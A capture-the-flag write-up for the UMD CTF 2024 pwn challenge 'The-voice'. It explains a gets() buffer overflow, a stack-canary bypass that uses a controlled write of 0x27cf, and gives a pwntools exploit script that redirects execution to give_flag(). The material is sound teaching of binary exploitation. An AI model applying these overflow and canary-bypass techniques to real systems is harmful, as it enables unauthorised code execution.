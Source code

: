 ```yaml
---
title: The-voice
date: 2024-04-26T14:23:28+03:00
description: Writeup for The-voice [UMD 2024]
type: writeup
author: PineBel
tags:
  - pwn
draft: false
---
```

## Challenge Description

Firing your weapon when the spice harvester's shields are down requires exceptional timing.

### Intuition
This was an easy pwn challenge. We get the source code but it doesn't hint anything besides an obvious BOF and a give_flag() function. Sadly we have a canary so we are a bit stuck..

If we open the binary in Ghidra we can see that we can actually write over the canary from the stack the value 10191.

```C
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
    ....
  gets(local_28);
  iVar1 = FUN_00401100(local_28);
  *(undefined8 *)(in_FS_OFFSET + (long)iVar1 * 8 + -0x50) = 0x27cf;
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }

```
### Solution 

The solution is pretty simple, we calculate what value our input needs to have so we can write 0x27cf where the actual canary is (fs+0x28), and after that we can just write over local_10 the same value and bypass the canary check this way and return to the give_flag() function.

```py
from pwn import *

target = process("./the_voice")
target = remote("challs.umdctf.io","31192")
target.recvuntil(b".")


flag = p64(0x4011f6)
payload = b"0"*22+b"15"+p64(0x27cf)+b"a"*8+flag
target.sendline(payload)
target.interactive()

```